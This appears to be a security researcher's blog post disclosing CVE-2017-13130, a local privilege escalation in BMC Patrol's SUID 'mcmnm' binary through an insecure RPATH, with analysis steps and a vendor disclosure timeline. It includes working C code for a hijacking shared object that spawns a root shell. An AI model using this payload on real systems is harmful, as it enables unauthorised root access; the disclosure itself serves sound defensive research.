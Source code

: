 ```yaml
---
title: "CVE-2017-13130 BMC Patrol 'mcmnm' - Privilege Escalation via a Vulnerable SUID Binary"
layout: "post"
---
```


A vulnerability was discovered in the `mcmnm` binary. It is compiled with a `RPATH` starting with `.:`. Therefore, any user can craft a malicious library (e.g.: `libmcmclnx.so`) and then run `mcmnm` from the same directory to execute code as _root_.


<p align="center">
  <img src="/assets/posts/2018-06-06-bmc-patrol-mcmnm-privesc/00_exploit-demo.gif">
</p>

## Vulnerability analysis 

### File permissions

The `mcmnm` file is a `SUID` binary owned by _root_ and executable by everyone.

<p align="center">
  <img src="/assets/posts/2018-06-06-bmc-patrol-mcmnm-privesc/01_file-permissions_obf.png">
</p>

### Vulnerable RPATH

The binary's `RPATH` contains the unsecure path `.`. As a reminder, `RPATH` is the _run-time search path_. It can be used to specify the location of Shared Objects that will be loaded before any other library because the linker gives them a higher priority. Therefore, if a local user can create a custom Shared Object in one of these folders, then he/she will be able to hijack the execution flow of the program. In the present case, `.` can be regarded as a sort of wildcard, hence the obvious vulnerability.

<p align="center">
  <img src="/assets/posts/2018-06-06-bmc-patrol-mcmnm-privesc/02_readelf-rpath_obf.png">
</p>

### A quick dynamic analysis using `strace`

Thanks to `strace` we can see which SO files the binary tries to load and from where. For example, it tries to load `libmcmclnx.so'` from the current folder (because of the `.` in the `RPATH`). 

<p align="center">
  <img src="/assets/posts/2018-06-06-bmc-patrol-mcmnm-privesc/03_strace_obf.png">
</p>

## Exploit development 

### Shared Object hijacking
The exploit is quite simple as a local attacker only has to craft a malicious Shared Object file and execute the vulnerable binary from the same folder. The following code will spawn a _root_ shell as soon as the Object is loaded (similar to `DllMain` with Windows DLL).

```c
#include <stdio.h>
#include <stdlib.h>

static void so_hijacking() __attribute__((constructor));

void so_hijacking() {
    setreuid(0, 0);
    system("/bin/sh");
    exit(0);
}

void GetSysInfo() {}
```


### The exploit code 

The exploit was wrapped in a single script file. The first line (`BIN=/path/to/mcmnm`) must be modified to match the current installation of the Patrol package. If all goes well, you should get a _root_ shell. ;)

<p align="center">
  <img src="/assets/posts/2018-06-06-bmc-patrol-mcmnm-privesc/05_exploit_obf.png">
</p>

## Disclosure timeline

2017-04-21 - Vulnerability discovered  
2017-05-09 - Vendor contacted  
2017-06-05 - Still no response, reminder sent to vendor  
2017-08-22 - Still no response, vulnerability disclosed  

